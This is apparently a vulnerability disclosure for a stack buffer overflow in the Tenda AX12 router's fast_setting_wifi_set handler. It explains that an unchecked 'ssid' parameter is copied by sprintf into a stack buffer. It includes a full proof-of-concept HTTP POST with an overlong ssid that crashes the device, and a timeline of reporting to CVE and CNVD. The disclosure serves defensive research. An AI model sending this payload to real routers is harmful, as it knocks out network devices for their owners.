

# Tenda Router AX12 Vulnerability

This vulnerability lies in the `goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AX12. (lastest version of this product is [V22.03.01.21_CN](https://www.tenda.com.cn/download/detail-3237.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_4335C0`

This function uses `sprintf(... , "%s" , ...)` to copy the string pointed by `v2` into a stack buffer pointed by `v19`.


However, `v2` gets in a parameter called `ssid` and use that input value without any check.



So it caused stack overflow, the attacker can easily perform a **DoS Attack**.

## POC

```
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: tendawifi.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1083
Connection: close
Referer: http://tendawifi.com/index.html

ssid=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaak&wrlPassword=&power=high&timeZone=%2B08%3A00&loginPwd=
```

## Timeline

- 2021.12.16 report to CVE & CNVD
- 2022.01.07 CNVD ID assigned: CNVD-2022-01525